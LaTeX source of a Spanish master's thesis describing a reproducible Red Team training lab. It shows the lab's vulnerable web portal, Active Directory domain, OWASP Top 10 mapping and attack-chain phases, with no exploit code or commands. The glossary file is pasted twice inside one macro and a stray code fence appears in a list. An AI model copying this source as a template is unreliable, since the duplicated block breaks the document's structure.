% \enlace{url}{texto_visible}
% Sirve para crear un hipervínculo con color personalizado y subrayado.
%
% Ejemplo:
% \enlace{https://www.example.com}{Sitio oficial}
%
% Requisitos habituales:
% - hyperref
% - ulem o un paquete que defina \uline
% - color/bluelink definido en el documento
\newcommand{\enlace}[2]{%
  \href{#1}{\color{bluelink}\uline{#2}}%
}

% \captionazul{texto_caption}
% Sirve para crear una caption de figura o tabla con texto en color azul.
%
% Ejemplo:
% \begin{figure}
%   ...
%   \captionazul{Arquitectura general del sistema}
% \end{figure}
%
% Nota:
% También usa el mismo texto para la entrada corta del índice de figuras/tablas.
\newcommand{\captionazul}[1]{%
  \caption[#1]{\textcolor{blueColor}{#1}}%
  \vspace{0.2cm}
}


\newcommand{\subcaptionazul}[1]{%
    \subcaption{\textcolor{blueColor}{#1}}%
    \vspace{0.2cm}%
}

% ---------------------------------------------------------
% 4. ETIQUETAS VISUALES DE RESPUESTA
% ---------------------------------------------------------
%
% Estos comandos imprimen respuestas cortas en color.
% Son útiles en tablas comparativas o matrices de decisión.
%

% \permits
% Muestra “Sí” en verde.
%
% Ejemplo:
% Acceso de administrador: \permits
\newcommand{\permits}{\textcolor{green!60!black}{Sí}}

% \denies
% Muestra “No” en rojo.
%
% Ejemplo:
% Acceso de invitado: \denies
\newcommand{\denies}{\textcolor{red!70!black}{No}}

% ---------------------------------------------------------
% 5. AJUSTES GLOBALES
% ---------------------------------------------------------
%
% Estas líneas modifican comportamientos por defecto de paquetes.
%

% Elimina la línea horizontal de la cabecera definida por fancyhdr.
\renewcommand{\headrulewidth}{0pt}

% Evita que aparezcan números de página junto a las entradas del glosario.
% Suele usarse cuando no interesa mostrar en qué páginas aparece cada término.
\renewcommand*{\glossaryentrynumbers}[1]{}

% ---------------------------------------------------------
% 6. ÍNDICES Y GLOSARIO
% ---------------------------------------------------------
%
% Estos comandos generan índices y glosario con ajustes de espaciado.
%

% \crearIndiceTOC
% Genera el índice general (table of contents).
%
% Ejemplo:
% \crearIndiceTOC
\newcommand{\crearIndiceTOC}{%
    \vspace*{-2.5cm}%
    \tableofcontents%
}

% \crearIndiceTablas
% Genera el índice de tablas.
%
% Ejemplo:
% \crearIndiceTablas
\newcommand{\crearIndiceTablas}{%
    \vspace*{-2.5cm}%
    \listoftables%
}

% \crearIndiceFiguras
% Genera el índice de figuras.
%
% Ejemplo:
% \crearIndiceFiguras
\newcommand{\crearIndiceFiguras}{%
    \vspace*{-2.5cm}%
    \listoffigures%
}

% \crearglosario
% Inserta el glosario de términos, ajusta la cabecera y añade todas
% las entradas del glosario aunque no hayan sido usadas en el texto.
%
% Ejemplo:
% \crearglosario
%
% Nota:
% Este comando asume que existe el fichero:
% Glosario/glosario.tex
\newcommand{\crearglosario}{%
    \vspace*{-1cm}%
    \nombreCapituloCabecera{RH}{Glosario de términos}%

    %\glsaddall
    \vspace*{-2cm}%
    % =========================================================
% glosario.tex
% Definición y generación del glosario y siglas del TFM
% =========================================================
%
% Este fichero contiene:
%   - Definiciones de términos (glosario)
%   - Definiciones de siglas (acrónimos)
%   - Estructura de impresión del glosario en el documento
%
% Se utiliza junto con el paquete:
%   \usepackage[acronym]{glossaries}
%
% ---------------------------------------------------------
% 📌 ¿Cómo usar este fichero?
% ---------------------------------------------------------
%
% 1. Define nuevos términos con:
%
%    \newglossaryentry{clave}{
%        name={Nombre visible},
%        description={Definición del término}
%    }
%
% 2. Define nuevas siglas con:
%
%    \newacronym{clave}{SIGLA}{Nombre completo}
%
% 3. Usa los términos en el documento:
%
%    \gls{clave}        → muestra el término
%
% 4. Usa las siglas:
%
%    \acrshort{clave}   → forma corta (API)
%    \acrlong{clave}    → forma larga (Interfaz de Programación de Aplicaciones)
%
% 5. Genera el glosario automáticamente con:
%
%    \crearglosario
%
% ---------------------------------------------------------
% 📖 Tipos de entradas
% ---------------------------------------------------------
%
% 🔤 Términos (glosario)
%
% Ejemplo:
%   \newglossaryentry{backend}{
%       name={Backend},
%       description={Sistema de servidores y lógica}
%   }
%
% 🔠 Siglas (acrónimos)
%
% Ejemplo:
%   \newacronym{api}{API}{Interfaz de Programación de Aplicaciones}
%
% También puedes definir plural:
%
%   \newacronym[
%     plural=SIGLAS,
%     longplural={Nombre completo en plural}
%   ]{clave}{SIGLA}{Nombre completo}
%
% ---------------------------------------------------------
% ⚙️ Impresión del glosario
% ---------------------------------------------------------
%
% Este fichero incluye dos secciones:
%
% 1. Glosario de siglas
%    - Muestra únicamente acrónimos
%
% 2. Definiciones
%    - Muestra términos definidos con \newglossaryentry
%
% Ambas secciones se insertan mediante:
%
%   % =========================================================
% glosario.tex
% Definición y generación del glosario y siglas del TFM
% =========================================================
%
% Este fichero contiene:
%   - Definiciones de términos (glosario)
%   - Definiciones de siglas (acrónimos)
%   - Estructura de impresión del glosario en el documento
%
% Se utiliza junto con el paquete:
%   \usepackage[acronym]{glossaries}
%
% ---------------------------------------------------------
% 📌 ¿Cómo usar este fichero?
% ---------------------------------------------------------
%
% 1. Define nuevos términos con:
%
%    \newglossaryentry{clave}{
%        name={Nombre visible},
%        description={Definición del término}
%    }
%
% 2. Define nuevas siglas con:
%
%    \newacronym{clave}{SIGLA}{Nombre completo}
%
% 3. Usa los términos en el documento:
%
%    \gls{clave}        → muestra el término
%
% 4. Usa las siglas:
%
%    \acrshort{clave}   → forma corta (API)
%    \acrlong{clave}    → forma larga (Interfaz de Programación de Aplicaciones)
%
% 5. Genera el glosario automáticamente con:
%
%    \crearglosario
%
% ---------------------------------------------------------
% 📖 Tipos de entradas
% ---------------------------------------------------------
%
% 🔤 Términos (glosario)
%
% Ejemplo:
%   \newglossaryentry{backend}{
%       name={Backend},
%       description={Sistema de servidores y lógica}
%   }
%
% 🔠 Siglas (acrónimos)
%
% Ejemplo:
%   \newacronym{api}{API}{Interfaz de Programación de Aplicaciones}
%
% También puedes definir plural:
%
%   \newacronym[
%     plural=SIGLAS,
%     longplural={Nombre completo en plural}
%   ]{clave}{SIGLA}{Nombre completo}
%
% ---------------------------------------------------------
% ⚙️ Impresión del glosario
% ---------------------------------------------------------
%
% Este fichero incluye dos secciones:
%
% 1. Glosario de siglas
%    - Muestra únicamente acrónimos
%
% 2. Definiciones
%    - Muestra términos definidos con \newglossaryentry
%
% Ambas secciones se insertan mediante:
%
%   \input{Glosario/glosario}
%
% y son llamadas automáticamente desde:
%
%   \crearglosario
%
% ---------------------------------------------------------
% ⚠️ Reglas importantes
% ---------------------------------------------------------
%
% - Cada entrada debe tener una clave única:
%     ❌ backend duplicado
%     ✔ backend, backend_api, backend_sistema
%
% - No usar espacios en las claves:
%     ❌ "base de datos"
%     ✔ base_datos
%
% - Usa nombres descriptivos:
%     ✔ resultset
%     ❌ r1
%
% - Evita repetir definiciones en el texto:
%     usa siempre \gls{}
%
% ---------------------------------------------------------
% 💡 Notas
% ---------------------------------------------------------
%
% - El comando \glsaddall se usa para incluir todos los términos
%   aunque no aparezcan en el texto
%
% - Puedes eliminarlo si solo quieres mostrar términos usados
%
% - El formato visual está controlado por la plantilla
%
% =========================================================

% Ejemplos de entradas de glosario y siglas. Reemplaza o añade las tuyas propias.




% =========================
% Glosario de términos
% =========================

\newglossaryentry{redteam}{
    name={Red Team},
    description={Disciplina de seguridad ofensiva orientada a simular ataques reales para evaluar la capacidad de detección y respuesta de una organización}
}

\newglossaryentry{pentesting}{
    name={Pentesting},
    description={Proceso autorizado de evaluación de la seguridad de un sistema mediante técnicas de ataque controladas}
}

\newglossaryentry{pivoting}{
    name={Pivoting},
    description={Técnica que permite utilizar un sistema comprometido como punto de acceso para alcanzar otros sistemas de una red interna}
}

\newglossaryentry{lateralmovement}{
    name={Movimiento lateral},
    description={Conjunto de técnicas utilizadas por un atacante para desplazarse entre distintos sistemas de una red tras obtener acceso inicial}
}

\newglossaryentry{hostonly}{
    name={Red Host-Only},
    description={Tipo de red virtual aislada que permite la comunicación entre máquinas virtuales y el equipo anfitrión sin exponerlas a redes externas}
}

\newglossaryentry{snapshot}{
    name={Snapshot},
    description={Captura instantánea del estado completo de una máquina virtual que permite restaurarla posteriormente}
}


% =========================
% Glosario de siglas
% =========================

\newacronym{owasp}{OWASP}{Open Worldwide Application Security Project}

\newacronym{ad}{AD}{Active Directory}

\newacronym{vm}{VM}{Máquina Virtual}

\newacronym{dns}{DNS}{Domain Name System}

\newacronym{smb}{SMB}{Server Message Block}

\newacronym{winrm}{WinRM}{Windows Remote Management}

\newacronym{http}{HTTP}{HyperText Transfer Protocol}

\newacronym{https}{HTTPS}{HyperText Transfer Protocol Secure}

\newacronym{php}{PHP}{PHP Hypertext Preprocessor}

\newacronym{sql}{SQL}{Structured Query Language}

\newacronym{mysql}{MySQL}{My Structured Query Language}

\newacronym{apache}{Apache}{Apache HTTP Server}

\newacronym{ssh}{SSH}{Secure Shell}

\newacronym{nat}{NAT}{Network Address Translation}

\newacronym{lan}{LAN}{Local Area Network}

\newacronym{ip}{IP}{Internet Protocol}

\newacronym{cpu}{CPU}{Central Processing Unit}

\newacronym{ram}{RAM}{Random Access Memory}

\newacronym{xfce}{XFCE}{XForms Common Environment}

\newacronym{mitre}{MITRE ATT\&CK}{Adversarial Tactics, Techniques and Common Knowledge}

\newacronym{sqli}{SQLi}{SQL Injection}

\newacronym{xss}{XSS}{Cross-Site Scripting}

\newacronym{dvwa}{DVWA}{Damn Vulnerable Web Application}

\newacronym{cve}{CVE}{Common Vulnerabilities and Exposures}

\newacronym{cwe}{CWE}{Common Weakness Enumeration}

\newacronym{git}{Git}{Sistema de control de versiones distribuido}

\newacronym{github}{GitHub}{Plataforma de alojamiento y gestión de repositorios Git}

\newacronym{api}{API}{Interfaz de Programación de Aplicaciones}


% =========================
% Impresión del glosario
% =========================

\glsaddall

\section*{Glosario de siglas}
\label{sec:glosario-siglas}
\vspace{-1.3cm}

\printglossary[type=\acronymtype, title={}, toctitle={}]

\section*{Definiciones}
\label{sec:glosario-terminos}
\vspace{-1.3cm}

\printglossary[title={}, toctitle={}]

%
% y son llamadas automáticamente desde:
%
%   \crearglosario
%
% ---------------------------------------------------------
% ⚠️ Reglas importantes
% ---------------------------------------------------------
%
% - Cada entrada debe tener una clave única:
%     ❌ backend duplicado
%     ✔ backend, backend_api, backend_sistema
%
% - No usar espacios en las claves:
%     ❌ "base de datos"
%     ✔ base_datos
%
% - Usa nombres descriptivos:
%     ✔ resultset
%     ❌ r1
%
% - Evita repetir definiciones en el texto:
%     usa siempre \gls{}
%
% ---------------------------------------------------------
% 💡 Notas
% ---------------------------------------------------------
%
% - El comando \glsaddall se usa para incluir todos los términos
%   aunque no aparezcan en el texto
%
% - Puedes eliminarlo si solo quieres mostrar términos usados
%
% - El formato visual está controlado por la plantilla
%
% =========================================================

% Ejemplos de entradas de glosario y siglas. Reemplaza o añade las tuyas propias.




% =========================
% Glosario de términos
% =========================

\newglossaryentry{redteam}{
    name={Red Team},
    description={Disciplina de seguridad ofensiva orientada a simular ataques reales para evaluar la capacidad de detección y respuesta de una organización}
}

\newglossaryentry{pentesting}{
    name={Pentesting},
    description={Proceso autorizado de evaluación de la seguridad de un sistema mediante técnicas de ataque controladas}
}

\newglossaryentry{pivoting}{
    name={Pivoting},
    description={Técnica que permite utilizar un sistema comprometido como punto de acceso para alcanzar otros sistemas de una red interna}
}

\newglossaryentry{lateralmovement}{
    name={Movimiento lateral},
    description={Conjunto de técnicas utilizadas por un atacante para desplazarse entre distintos sistemas de una red tras obtener acceso inicial}
}

\newglossaryentry{hostonly}{
    name={Red Host-Only},
    description={Tipo de red virtual aislada que permite la comunicación entre máquinas virtuales y el equipo anfitrión sin exponerlas a redes externas}
}

\newglossaryentry{snapshot}{
    name={Snapshot},
    description={Captura instantánea del estado completo de una máquina virtual que permite restaurarla posteriormente}
}


% =========================
% Glosario de siglas
% =========================

\newacronym{owasp}{OWASP}{Open Worldwide Application Security Project}

\newacronym{ad}{AD}{Active Directory}

\newacronym{vm}{VM}{Máquina Virtual}

\newacronym{dns}{DNS}{Domain Name System}

\newacronym{smb}{SMB}{Server Message Block}

\newacronym{winrm}{WinRM}{Windows Remote Management}

\newacronym{http}{HTTP}{HyperText Transfer Protocol}

\newacronym{https}{HTTPS}{HyperText Transfer Protocol Secure}

\newacronym{php}{PHP}{PHP Hypertext Preprocessor}

\newacronym{sql}{SQL}{Structured Query Language}

\newacronym{mysql}{MySQL}{My Structured Query Language}

\newacronym{apache}{Apache}{Apache HTTP Server}

\newacronym{ssh}{SSH}{Secure Shell}

\newacronym{nat}{NAT}{Network Address Translation}

\newacronym{lan}{LAN}{Local Area Network}

\newacronym{ip}{IP}{Internet Protocol}

\newacronym{cpu}{CPU}{Central Processing Unit}

\newacronym{ram}{RAM}{Random Access Memory}

\newacronym{xfce}{XFCE}{XForms Common Environment}

\newacronym{mitre}{MITRE ATT\&CK}{Adversarial Tactics, Techniques and Common Knowledge}

\newacronym{sqli}{SQLi}{SQL Injection}

\newacronym{xss}{XSS}{Cross-Site Scripting}

\newacronym{dvwa}{DVWA}{Damn Vulnerable Web Application}

\newacronym{cve}{CVE}{Common Vulnerabilities and Exposures}

\newacronym{cwe}{CWE}{Common Weakness Enumeration}

\newacronym{git}{Git}{Sistema de control de versiones distribuido}

\newacronym{github}{GitHub}{Plataforma de alojamiento y gestión de repositorios Git}

\newacronym{api}{API}{Interfaz de Programación de Aplicaciones}


% =========================
% Impresión del glosario
% =========================

\glsaddall

\section*{Glosario de siglas}
\label{sec:glosario-siglas}
\vspace{-1.3cm}

\printglossary[type=\acronymtype, title={}, toctitle={}]

\section*{Definiciones}
\label{sec:glosario-terminos}
\vspace{-1.3cm}

\printglossary[title={}, toctitle={}]
%
}


% =========================================================
% PORTADA
% =========================================================
\newcommand{\printportada}[6]{%
  \newgeometry{
    left=30mm,
    right=30mm,
    top=27.5mm,
    bottom=0mm,
    headheight=31.1pt
  }%
  
  \definecolor{AzulRect}{HTML}{064EA2}



  % ===== Portada 1 =====
  \begin{titlepage}
    \thispagestyle{empty}
    \begin{center}
        
\includegraphics[scale=1]{Logo/CEU-Logo.png}

     
        \vspace{1.3cm}

        % Añadido \selectfont y corregido interlineado (24pt para letra de 20pt)
        {\fontspec{Arial}\fontsize{20pt}{23pt}\selectfont\bfseries TÍTULO \par} 
        {\fontspec{Arial}\fontsize{20pt}{21pt}\selectfont\bfseries #1 \par}

        \vspace{4.35cm}
        
        {\fontspec{Arial}\fontsize{16pt}{16pt}\selectfont TRABAJO DE FIN DE MÁSTER \par}
        {\fontspec{Arial}\fontsize{16pt}{16pt}\selectfont EN CIBERSEGURIDAD \par}

        \vspace{1.8cm}
        {\fontspec{Arial}\fontsize{16pt}{17pt}\selectfont #2 \par}
        \vspace{1.5cm}
        {\fontspec{Arial}\fontsize{16pt}{17pt}\selectfont #4 \par} 

        \vfill
    \end{center}
    
    \begin{tikzpicture}[remember picture,overlay]
        \fill[AzulRect]
          ($(current page.south)+(0,0)$)
          ++(-10.5cm,-0.15cm) 
          rectangle ++(25cm,4.37cm);
    \end{tikzpicture}
  \end{titlepage}

  \cleartooddpage
  % ===== Portada 2 =====
  \begin{titlepage}
    \thispagestyle{empty}
    \begin{center}
        
\includegraphics[scale=1]{Logo/CEU-Logo.png}

        \vspace{2.75cm}
        {\fontspec{Arial}\fontsize{20pt}{21pt}\selectfont\bfseries TÍTULO \par}
        \vspace{0.3cm}
        {\fontspec{Arial}\fontsize{20pt}{21pt}\selectfont\bfseries #5 \par}
        \vspace{2.5cm} 

        {\fontspec{Arial}\fontsize{16pt}{16pt}\selectfont TRABAJO DE FIN DE MÁSTER \par}
        {\fontspec{Arial}\fontsize{16pt}{16pt}\selectfont EN CIBERSEGURIDAD \par}

        \vspace{1.2cm}
        {\fontspec{Arial}\fontsize{16pt}{20pt}\selectfont #2 \par}
        \vspace{1.7cm}
        {\fontspec{Arial}\fontsize{14pt}{17pt}\selectfont #3 \par}
        \vspace{2.7cm}
        {\fontspec{Arial}\fontsize{14pt}{20pt}\selectfont #4 \par} 
        \vspace{1.3cm}
    \end{center}
  \end{titlepage}

  \restoregeometry
  \setcounter{page}{1}%
}

% =========================================================
% DOCUMENTO
% =========================================================
\begin{document}
\raggedbottom

% ---------------------------------------------------------
% PORTADA
% ---------------------------------------------------------
\printportada{Laboratorio Red Team con escenarios de ataque reproducibles}{Jose Tomas Torre Pedroarena}{Roberto López Santoyo}{Julio, 2026}{Red Team Lab with Reproducible Attack Scenarios}

% ---------------------------------------------------------
% CONFIGURACIÓN GENERAL DEL CUERPO
% ---------------------------------------------------------
\input{Formatos/Cuerpo}

% ---------------------------------------------------------
% PRELIMINARES
% ---------------------------------------------------------
\pagenumbering{Roman}
\pagestyle{plain}

\cleartooddpage
\vspace*{-1.5cm}
\section*{Resumen}
\label{sec:resumen}

Este Trabajo Fin de Máster presenta el diseño, implementación y validación de un laboratorio de Red Team orientado a la formación y experimentación en ciberseguridad ofensiva. El entorno reproduce una infraestructura corporativa híbrida compuesta por un servidor Ubuntu con una aplicación web vulnerable y un dominio Active Directory basado en Windows Server 2012 y Windows 7. Sobre esta infraestructura se implementa una cadena completa de ataque que abarca las fases de reconocimiento, explotación web, escalada de privilegios, obtención de credenciales, movimiento lateral y compromiso del dominio.

Durante el desarrollo del proyecto se diseñaron escenarios vulnerables basados en técnicas habituales utilizadas en ejercicios de Red Team, incorporando vulnerabilidades representativas del OWASP Top 10 y técnicas documentadas en el marco MITRE ATT\&CK. Asimismo, se desarrolló un conjunto de scripts y procedimientos que permiten automatizar el despliegue del laboratorio y garantizar su reproducibilidad.

Como resultado, se obtuvo un entorno funcional, modular y reproducible que puede ejecutarse sobre equipos con recursos hardware moderados gracias a un proceso de optimización de memoria y almacenamiento. El laboratorio constituye una plataforma práctica para el aprendizaje de técnicas ofensivas, la realización de pruebas de penetración y el entrenamiento en escenarios similares a los encontrados en infraestructuras corporativas reales.


\vspace{-1.5mm}
\vfill
\section*{Palabras Clave}
\label{sec:palabra_clave}

Red Team, laboratorio de ciberseguridad, Active Directory, pruebas de penetración, OWASP Top 10, MITRE ATT\&CK, escalada de privilegios, movimiento lateral, seguridad ofensiva, virtualización.
\vfill
\vfill
\vfill
\vfill


\cleartooddpage
\clearpage

\vspace*{-1.5cm}
\section*{Abstract}
\label{sec:abstract}
This Master's Thesis presents the design, implementation, and validation of a Red Team laboratory intended for cybersecurity training and offensive security experimentation. The environment reproduces a hybrid corporate infrastructure consisting of an Ubuntu server hosting a vulnerable web application and an Active Directory domain based on Windows Server 2012 and Windows 7. A complete attack chain is implemented, covering the stages of reconnaissance, web exploitation, privilege escalation, credential harvesting, lateral movement, and domain compromise.

Throughout the project, vulnerable scenarios inspired by common Red Team techniques were developed, incorporating representative vulnerabilities from the OWASP Top 10 and attack techniques documented in the MITRE ATT\&CK framework. In addition, deployment scripts and technical documentation were created to automate the installation process and ensure the reproducibility of the environment.

The resulting laboratory is a functional, modular, and reproducible platform that can run on commodity hardware thanks to memory and storage optimization. It provides a practical environment for learning offensive security techniques, performing penetration testing exercises, and training in scenarios that closely resemble real-world corporate infrastructures.




\vfill
\vfill
\section*{Keywords}
\label{sec:keywords}
Red Team, cybersecurity laboratory, Active Directory, penetration testing, OWASP Top 10, MITRE ATT\&CK, privilege escalation, lateral movement, offensive security, virtualization.
\vfill
\vfill
\vfill
\vfill


\cleartooddpage
\clearpage
\crearIndiceTOC

\cleartooddpage
\clearpage
\crearIndiceFiguras

\cleartooddpage
\clearpage
\crearIndiceTablas

% ---------------------------------------------------------
% CUERPO PRINCIPAL
% ---------------------------------------------------------

\clearpage

\newgeometry{
  left=30mm,
  right=30mm,
  top=40mm,
  bottom=30mm,
  headheight=31.1pt,
  headsep=1.3cm,
  footskip=1.5cm
}

\pagenumbering{arabic}
\setcounter{page}{1}
\setlength{\headsep}{35pt}
 %Cabecera y pie de página
%\tocloftpagestyle{fancy}
\pagestyle{fancy}
\fancyhf{}

\logocabeceraCEU{LH}{Logo/CEU-Logo2.png}

%\setlength{\footskip}{1.53cm} % Ajusta este valor (por defecto suele ser 30pt)

\cfoot{\thepage}

\pagestyle{fancy}

% =========================================================
% CUERPO DEL TRABAJO (estructura solicitada)
% =========================================================


% 1 Introducción
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Introducción} % Título de la sección en la cabecera

\section{Introducción} % Título del capítulo
\label{sec:introduccion}

% ---------------------------------------------------

La ciberseguridad se ha convertido en uno de los principales retos tecnológicos para las organizaciones actuales. La digitalización de procesos, la exposición de servicios web y la interconexión entre sistemas internos han incrementado la superficie de ataque disponible para posibles actores maliciosos. En este contexto, resulta fundamental comprender cómo se producen las intrusiones, qué debilidades suelen ser explotadas y cómo se encadenan distintas técnicas ofensivas hasta comprometer un entorno corporativo.

La formación práctica en ciberseguridad requiere entornos controlados donde sea posible analizar vulnerabilidades, ejecutar ataques y estudiar su impacto sin afectar a sistemas reales. Aunque existen laboratorios y máquinas vulnerables orientadas al aprendizaje, muchos de estos entornos se centran en ejercicios aislados o en una única máquina objetivo. Esto limita la posibilidad de representar una cadena de ataque completa que incluya acceso inicial, explotación, escalada de privilegios, pivoting, enumeración interna y movimiento lateral.

El presente Trabajo Fin de Máster aborda el diseño e implementación de un laboratorio Red Team reproducible, orientado a la simulación de ataques en un entorno corporativo controlado. Para ello, se ha diseñado una infraestructura compuesta por un servidor web vulnerable, una red interna segmentada y sistemas Windows integrados en un dominio Active Directory. La aplicación web simula un portal corporativo con funcionalidades habituales en una organización, como gestión de usuarios, empleados, clientes o tickets, con el objetivo de disponer de un escenario realista sobre el que introducir y explotar vulnerabilidades.

Las vulnerabilidades incorporadas en el laboratorio toman como referencia las categorías recogidas en OWASP Top 10, al tratarse de uno de los marcos más utilizados para clasificar riesgos de seguridad en aplicaciones web. Además, los escenarios ofensivos se relacionan con técnicas contempladas en MITRE ATT\&CK, lo que permite conectar las acciones realizadas en el laboratorio con tácticas y procedimientos empleados en ataques reales.

El resultado esperado es un entorno práctico, modular y reproducible que permita estudiar el ciclo completo de una intrusión en un escenario controlado. Este laboratorio no pretende representar una organización concreta, sino proporcionar una base técnica suficientemente realista para practicar y documentar técnicas ofensivas aplicables a entornos empresariales.






\subsection{Contexto y motivación}

La creciente digitalización de los entornos corporativos ha incrementado la exposición de aplicaciones web, servicios internos y sistemas interconectados. Este contexto ha provocado que la ciberseguridad sea un aspecto clave para comprender cómo se producen los ataques, qué vulnerabilidades suelen ser explotadas y cómo un acceso inicial puede derivar en el compromiso de otros sistemas internos.

Muchos laboratorios de aprendizaje se centran en máquinas aisladas o vulnerabilidades concretas, lo que limita la representación de una intrusión completa. Por ello, este trabajo plantea el diseño de un laboratorio Red Team reproducible que permita practicar una cadena de ataque más realista, incluyendo explotación web, escalada de privilegios, pivoting, enumeración interna y movimiento lateral.

La motivación principal del proyecto es disponer de un entorno controlado y documentado que facilite el aprendizaje práctico de técnicas ofensivas sin afectar a sistemas reales. Para ello, el laboratorio combina un servidor web vulnerable, una red interna segmentada y una infraestructura Windows basada en Active Directory.

\subsection{Objetivos del trabajo}

El presente Trabajo Fin de Máster tiene como finalidad diseñar e implementar un laboratorio de ciberseguridad orientado a la simulación de escenarios de ataque en entornos corporativos. Para ello, se ha desarrollado una infraestructura reproducible que integra diferentes sistemas y servicios con el objetivo de representar de forma realista las distintas fases de una intrusión, desde el acceso inicial hasta el compromiso de recursos internos.

Además del desarrollo técnico del laboratorio, el proyecto busca proporcionar una plataforma práctica que permita analizar vulnerabilidades, validar técnicas ofensivas y facilitar el aprendizaje de conceptos relacionados con la seguridad de aplicaciones web, la segmentación de redes y los entornos basados en Active Directory.

\subsubsection{Objetivo general}

Diseñar e implementar un laboratorio Red Team reproducible que permita simular y documentar escenarios de ataque realistas sobre una infraestructura corporativa controlada, integrando vulnerabilidades web, sistemas Windows y técnicas de post-explotación.

\subsubsection{Objetivos específicos}

Para alcanzar el objetivo general se han definido los siguientes objetivos específicos:

\begin{itemize}
\item Diseñar una arquitectura de laboratorio segmentada que simule un entorno corporativo realista.

\item Implementar un servidor web vulnerable basado en tecnologías ampliamente utilizadas en entornos empresariales.

\item Incorporar vulnerabilidades representativas del estándar OWASP Top 10 para su posterior explotación y análisis.

\item Desplegar una infraestructura Windows basada en Active Directory que permita simular escenarios de red internos.

\item Implementar técnicas de pivoting y movimiento lateral entre los distintos sistemas del laboratorio.

\item Automatizar el despliegue y configuración del entorno para facilitar su reproducibilidad.

\item Documentar el proceso de explotación y validación de los diferentes escenarios de ataque implementados.
```

\end{itemize}

\subsection{Alcance y limitaciones}

El alcance de este trabajo comprende el diseño, implementación y validación de un laboratorio de ciberseguridad orientado a la simulación de ataques en un entorno controlado. El laboratorio incluye una aplicación web vulnerable, una infraestructura Active Directory básica y los mecanismos necesarios para reproducir técnicas de explotación, escalada de privilegios y movimiento lateral.

No obstante, el proyecto presenta ciertas limitaciones. El entorno ha sido desarrollado con fines exclusivamente académicos y formativos, por lo que las vulnerabilidades presentes han sido introducidas de forma intencionada. Asimismo, la infraestructura implementada representa una simplificación de los entornos corporativos reales y no pretende reproducir la totalidad de servicios, políticas de seguridad o mecanismos de monitorización que pueden encontrarse en organizaciones de mayor complejidad.

\subsection{Organización de la memoria}

La memoria se estructura en seis capítulos principales. En primer lugar, se presenta el contexto del trabajo, los objetivos perseguidos y el alcance del proyecto. Posteriormente, se describe la metodología empleada, la planificación realizada y los recursos utilizados durante el desarrollo.

A continuación, se analizan los requisitos y las necesidades que han motivado el diseño del laboratorio. Seguidamente, se detalla la arquitectura implementada, los componentes que forman parte de la infraestructura y las decisiones de diseño adoptadas.

Los capítulos posteriores se centran en la validación del entorno mediante distintos escenarios de ataque, mostrando las técnicas empleadas y los resultados obtenidos. Finalmente, se presentan las conclusiones del trabajo y las posibles líneas de evolución futura del proyecto. La memoria se complementa con diversos anexos que incluyen documentación técnica, manuales de despliegue y material de apoyo.



% 2 Fundamentos teóricos
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Fundamentos teóricos}

\section{Fundamentos teóricos}
\label{sec:fundamentos_teoricos}

El desarrollo de un laboratorio orientado a ejercicios de Red Team requiere comprender los principales conceptos, vulnerabilidades y técnicas empleados tanto por atacantes como por profesionales de la seguridad ofensiva. Este capítulo presenta los fundamentos teóricos necesarios para entender los escenarios implementados posteriormente en el laboratorio y las distintas fases de explotación desarrolladas durante las pruebas de validación.

Se describen las principales categorías de vulnerabilidades utilizadas en la aplicación web, los conceptos asociados a infraestructuras Active Directory, así como las técnicas de pivoting, movimiento lateral y escalada de privilegios empleadas durante los ejercicios prácticos.

% ---------------------------------------------------

\subsection{OWASP Top 10}

OWASP Top 10 es uno de los estándares de referencia más utilizados para clasificar los riesgos de seguridad más relevantes presentes en aplicaciones web. Publicado periódicamente por la organización Open Worldwide Application Security Project (OWASP), recopila las categorías de vulnerabilidades que generan un mayor impacto sobre la seguridad de aplicaciones reales\footweb{owasp_top10_2025}.

La edición de 2025 mantiene \textit{Broken Access Control} como la categoría de riesgo más crítica e introduce cambios significativos respecto a versiones anteriores, como la incorporación de \textit{Software Supply Chain Failures} o la nueva categoría \textit{Mishandling of Exceptional Conditions}. Asimismo, categorías clásicas como \textit{Injection}, \textit{Security Misconfiguration} o \textit{Authentication Failures} continúan ocupando posiciones destacadas dentro de la clasificación.

En este proyecto, OWASP Top 10 se utiliza como marco de referencia para seleccionar las vulnerabilidades implementadas en el portal vulnerable. El objetivo no consiste en reproducir todas las categorías presentes en el estándar, sino aquellas que permiten construir una cadena de ataque realista dentro de un entorno corporativo tipo PYME.

\vspace{0.5cm}
\renewcommand{\arraystretch}{1.5}
\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}


\begin{table}[H]
    \centering
    \captionazul{Relación entre OWASP Top 10 2025 y vulnerabilidades implementadas en el laboratorio}

    \setlength{\arrayrulewidth}{0.3pt}

    \begin{tabular}{|C{1.4cm}|C{3cm}|C{5.8cm}|C{3cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{ID} & \textbf{Categoría OWASP 2025} & \textbf{Ejemplo en entorno PYME} & \textbf{Uso en el laboratorio} \\
        \hline
        \rowcolor{green!12}
        A01 & Broken Access Control & Acceso no autorizado a datos o funciones de otros usuarios & Implementada \\
        \hline
        \rowcolor{green!12}
        A02 & Security Misconfiguration & Servicios mal configurados, errores visibles o archivos sensibles expuestos & Implementada \\
        \hline
        A03 & Software Supply Chain Failures & Dependencias vulnerables o componentes externos comprometidos & No prioritaria \\
        \hline
        \rowcolor{green!12}
        A04 & Cryptographic Failures & Contraseñas débiles, hashes inseguros o datos sensibles mal protegidos & Implementada \\
        \hline
        \rowcolor{green!12}
        A05 & Injection & SQL Injection, XSS o inyección de comandos & Implementada \\
        \hline
        \rowcolor{green!12}
        A06 & Insecure Design & Flujos inseguros por falta de diseño seguro o threat modeling & Parcial \\
        \hline
        \rowcolor{green!12}
        A07 & Authentication Failures & Sesiones inseguras, credenciales débiles o reutilización de contraseñas & Implementada \\
        \hline
        A08 & Software or Data Integrity Failures & Falta de verificación de integridad en datos, código o actualizaciones & No prioritaria \\
        \hline
        \rowcolor{green!12}
        A09 & Security Logging \& Alerting Failures & Ausencia de registros o alertas ante acciones sospechosas & Parcial \\
        \hline
        \rowcolor{green!12}
        A10 & Mishandling of Exceptional Conditions & Errores que revelan rutas, consultas, stack traces o información interna & Implementada \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:owasp_top10_laboratorio}
\end{table}
\vspace{0.5cm}


Las categorías marcadas en verde corresponden a vulnerabilidades que han sido implementadas total o parcialmente durante el diseño del laboratorio. Su selección responde a criterios de realismo, relevancia práctica y capacidad para encadenar diferentes fases de explotación dentro de un escenario ofensivo completo.
